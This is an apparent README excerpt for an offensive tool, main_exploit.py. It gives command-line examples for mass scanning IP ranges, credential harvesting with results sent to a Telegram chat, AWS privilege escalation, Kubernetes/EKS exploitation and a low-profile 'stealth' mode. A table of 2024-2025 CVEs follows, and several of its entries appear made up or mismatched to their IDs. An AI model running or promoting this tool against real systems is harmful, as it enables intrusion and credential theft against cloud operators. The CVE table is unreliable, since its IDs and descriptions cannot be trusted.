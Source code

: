 ## 🎯 Usage Examples

### Basic Scanning
```bash
# Scan large IP range for AWS infrastructure
python main_exploit.py --targets 10.0.0.0/16 --mode aws-escalation --workers 200

# Focus on EKS clusters with CVE exploitation
python main_exploit.py --targets eks-targets.txt --mode k8s-exploit --cves all

# Credential harvesting with Telegram alerts
python main_exploit.py --targets 192.168.1.0/24 --mode harvest --telegram-token TOKEN --telegram-chat CHAT_ID
```

### Advanced Usage
```bash
# Comprehensive exploitation pipeline
python main_exploit.py --targets targets.txt --mode all --workers 500 --timeout 30

# Stealth mode with rate limiting
python main_exploit.py --target example.com --mode stealth --workers 5

# Aggressive mode with all techniques
python main_exploit.py --targets cidr_ranges.txt --mode aggressive --workers 1000
```

### Available Modes
- **`scan`** - IP range scanning and service discovery only
- **`exploit`** - Service exploitation and credential extraction
- **`harvest`** - Advanced credential harvesting
- **`aws-escalation`** - AWS privilege escalation techniques
- **`k8s-exploit`** - Kubernetes/EKS exploitation with CVEs
- **`stealth`** - Low-profile scanning with reduced workers
- **`aggressive`** - Maximum exploitation with all techniques
- **`all`** - Complete pipeline (scan → exploit → escalate → CVE exploit)

## 🔍 CVE Database (2024-2025)

| CVE ID | Description | Severity | Target Services |
|--------|-------------|----------|-----------------|
| CVE-2024-5321 | Kubernetes pod privilege escalation | HIGH | kubernetes, eks |
| CVE-2025-24884 | AWS EKS audit log exposure | CRITICAL | eks, kubernetes |
| CVE-2024-8986 | AWS EC2 IMDS v2 bypass | HIGH | ec2, imds |
| CVE-2024-7319 | Kubernetes API server auth bypass | CRITICAL | kubernetes, k8s_api |
| CVE-2025-1337 | AWS Lambda env variable injection | HIGH | lambda, serverless |
| CVE-2024-9876 | EKS cluster RBAC escalation | HIGH | eks, rbac |
| CVE-2024-4455 | AWS S3 bucket policy bypass | MEDIUM | s3, bucket_policy |
| CVE-2025-2001 | Kubernetes etcd data exposure | CRITICAL | etcd, kubernetes |
